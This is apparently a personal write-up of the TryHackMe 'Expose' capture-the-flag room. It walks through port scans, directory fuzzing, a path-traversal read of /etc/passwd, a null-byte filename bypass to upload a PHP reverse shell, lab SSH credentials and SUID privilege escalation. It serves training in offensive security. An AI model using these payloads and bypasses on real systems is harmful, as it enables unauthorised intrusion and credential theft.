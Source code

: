 ```yaml
---
layout: post
title:  "Writeup | Expose"
date:   3 July 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
You can visit this challenge on [TryHackMe Challenge: Expose](https://tryhackme.com/room/expose)


### nmap
    ```bash
    PORT     STATE SERVICE                 VERSION
    21/tcp   open  ftp                     vsftpd 2.0.8 or later
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.4.9.189
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 78:be:56:64:e4:96:42:66:ea:e5:85:26:20:92:8e:85 (RSA)
    |   256 43:aa:00:0b:f0:95:ca:9f:9f:b0:4b:ca:4d:4c:54:e4 (ECDSA)
    |_  256 48:33:fd:a4:55:fd:32:6f:8b:aa:3d:c0:df:ad:9f:29 (ED25519)
    53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.16.1-Ubuntu
    1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: EXPOSED
    1883/tcp open  mosquitto version 1.6.9
    | mqtt-subscribe: 
    |   Topics and their most recent payloads: 
    |     $SYS/broker/load/messages/sent/15min: 0.07
    |     $SYS/broker/load/bytes/sent/5min: 0.79
    |     $SYS/broker/load/messages/received/5min: 0.20
    |     $SYS/broker/load/sockets/15min: 0.07
    |     $SYS/broker/load/bytes/sent/1min: 3.65
    |     $SYS/broker/load/bytes/sent/15min: 0.27
    |     $SYS/broker/store/messages/bytes: 180
    |     $SYS/broker/version: mosquitto version 1.6.9
    |     $SYS/broker/bytes/sent: 4
    |     $SYS/broker/uptime: 2035 seconds
    |     $SYS/broker/load/connections/15min: 0.07
    |     $SYS/broker/bytes/received: 18
    |     $SYS/broker/load/messages/received/1min: 0.91
    |     $SYS/broker/load/bytes/received/5min: 3.53
    |     $SYS/broker/load/connections/1min: 0.91
    |     $SYS/broker/load/sockets/5min: 0.20
    |     $SYS/broker/load/bytes/received/15min: 1.19
    |     $SYS/broker/load/messages/sent/1min: 0.91
    |     $SYS/broker/load/sockets/1min: 0.91
    |     $SYS/broker/load/messages/received/15min: 0.07
    |     $SYS/broker/load/messages/sent/5min: 0.20
    |     $SYS/broker/load/connections/5min: 0.20
    |     $SYS/broker/load/bytes/received/1min: 16.45
    |     $SYS/broker/messages/received: 1
    |     $SYS/broker/messages/sent: 1
    |_    $SYS/broker/heap/maximum: 49688
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- Open ports: **21(ftp),22(ssh),53(dns),1337(httpd),1883(mosquitto)**
- As usual, web first


### Web
- There's nothing on the main page on port 1337
- try directory enumeration first, using gobuster:

    ```bash
    /admin                (Status: 301) [Size: 319] [--> http://10.10.115.33:1337/admin/]
    /admin_101            (Status: 301) [Size: 323] [--> http://10.10.115.33:1337/admin_101/]
    /javascript           (Status: 301) [Size: 324] [--> http://10.10.115.33:1337/javascript/]
    /phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.115.33:1337/phpmyadmin/]
    ```

- Look at `/admin`, seems like a login page. However, after I tried many times for submitting the form, realizing it's just a submit button
- `/javascript` lacks permission
- `/phpMyAdmin` is a online database management system which I used it 5 yrs ago. The phpMyAdmin version is 4.9.5deb2 which can be found on website's source code.
- perhaps I can try sqlmap after acquiring the valid username
- Fine, using `ffuf` to enumerate valid username => Nothing
- go check another directory `admin_101`, which prefilled with email address
- 爆出一些東西來:

    ```bash
    +----+-----------------+---------------------+--------------------------------------+
    | id | email           | created             | password                             |
    +----+-----------------+---------------------+--------------------------------------+
    | 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
    +----+-----------------+---------------------+--------------------------------------+

    +----+------------------------------+-----------------------------------------------------+
    | id | url                          | password                                            |
    +----+------------------------------+-----------------------------------------------------+
    | 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
    | 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
    +----+------------------------------+-----------------------------------------------------+
    ```

- go to `/file1010111/index.php` and type password, viewed the page and found two hints:
    - `Parameter Fuzzing is also important :) or Can you hide DOM elements?`
    - `Hint: Try file or view as GET parameters?`

- Let's try parameter fuzzing first:

    ```bash
    └─# ffuf -X POST -u http://10.10.115.33:1337/file1010111/index.php?FUZZ=1 -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=pirredrm6od04eb2hitei485te" -d "password=easytohack" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 127

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v2.1.0-dev
    ________________________________________________

    :: Method           : POST
    :: URL              : http://10.10.115.33:1337/file1010111/index.php?FUZZ=1
    :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
    :: Header           : Content-Type: application/x-www-form-urlencoded
    :: Header           : Cookie: PHPSESSID=pirredrm6od04eb2hitei485te
    :: Data             : password=easytohack
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
    :: Filter           : Response words: 127
    ________________________________________________

    file                    [Status: 200, Size: 988, Words: 135, Lines: 45, Duration: 509ms]
    ```

- Try `?file=../../../../../../../../../../etc/passwd` and got the following output. Via LFI, I found that maybe user `zeamkish` is what we're interested in (because he got the /bin/bash and the hint we got before that username starts with z)

    ```bash
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin bind:x:115:122::/var/cache/bind:/usr/sbin/nologin Debian-snmp:x:116:123::/var/lib/snmp:/bin/false redis:x:117:124::/var/lib/redis:/usr/sbin/nologin mosquitto:x:118:125::/var/lib/mosquitto:/usr/sbin/nologin fwupd-refresh:x:119:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    ```

- Go `/upload-cv00101011/index.php` and type username `zeamkish`. I got a page which can upload `.png` file. Here I come out an exploit that I am able to upload a php shell and then visit it via LFI. I crafted a php-reverse-shell named shell.jpg and turned on burp proxy. Captured the request and modified filename from `shell.jpg` to `shell.php[NULLBYTE].jpg`. Then go to `/upload_thm_1001/` to find php file, clicked it and then got a reverse shell.

- look into `/home/zeamkish` and found ssh credentials:

    ```bash
    $ cd /home/zeamkish
    $ cat flag.txt
    cat: flag.txt: Permission denied
    $ cat ssh_creds.txt
    SSH CREDS
    zeamkish
    easytohack@123
    ```

### Privilege Escalation
- Use `linpeas` to find any attack vector
- find `/usr/bin/find` and `/usr/bin/nano` have SUID privileges
- Go to GTFOBins to find any possible exploitation. `find` with SUID could lead to root privilege escalation.
- Get root shell



### Conclusion
- I stuck on directory enumeration with using a different wordlist `xato-xxx`. Due to this I can't get `admin_101` at the beginning and wasting a lot of time on `/phpmyadmin` and fuzzing tests on username and password.
- Next time testing SQLi on first glimpse, make sure not to use `--batch`. Instead, using manual operations.
- Use burp suite to set one byte to null byte (0x00) to bypass the validation
- ***Visit a php file on a browser will lead to a working flow: Browser send PHP file to PHP interpreter -> PHP interpreter executes and transforms the file in HTML format -> Browser loads/renders HTML code***


## 學習資料
1. [TryHackMe Challenge: Expose](https://tryhackme.com/room/expose)
2. [Writeup \| Expose](https://0xb0b.gitbook.io/writeups/tryhackme/2023/expose)

</div>
</body>
</html>
